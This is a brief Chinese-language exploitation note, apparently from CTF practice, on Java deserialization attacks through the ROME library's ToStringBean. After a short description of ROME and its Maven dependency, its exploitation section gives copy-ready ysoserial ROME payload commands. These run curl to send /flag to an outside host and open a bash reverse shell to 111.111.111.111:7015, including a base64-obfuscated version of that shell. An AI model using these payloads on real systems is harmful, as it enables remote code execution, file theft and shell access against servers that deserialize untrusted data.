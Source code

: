 ## **ROME反序列化**
ROME它指的是一个有用的工具库，帮助处理和操作XML格式的数据。ROME库允许我们把XML数据转换成Java中的对象，这样我们可以更方便地在程序中操作数据。另外，它也支持将Java对象转换成XML数据，这样我们就可以把数据保存成XML文件或者发送给其他系统。

ROME的应用场景包括新闻聚合应用、博客平台的RSS输出、数据分析等，它可以帮助开发者从多个源抓取并处理RSS或Atom feeds，以实时更新内容，也可以用于创建和维护博客的RSS输出，以便读者订阅。


他有个特殊的位置就是ROME提供了ToStringBean这个类，提供深入的toString方法对Java Bean进行操作。
```
<dependencies>
        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>1.0</version>
        </dependency>
 </dependencies>
```

<https://xz.aliyun.com/t/13286?u_atoken=bcc44563e868bc8bbf88f038f56e5316&u_asig=1a0c39a017285446910872366e0133>

## **利用**
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "curl http://vps:7015 -d @/flag" > a.bin
java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64

bash -i >& /dev/tcp/111.111.111.111/7015 0>&1
进行base64编码，YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar ROME "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMTExLjExMS4xMTEvNzAxNSAwPiYx}|{base64,-d}|{bash,-i}" > a.bin
```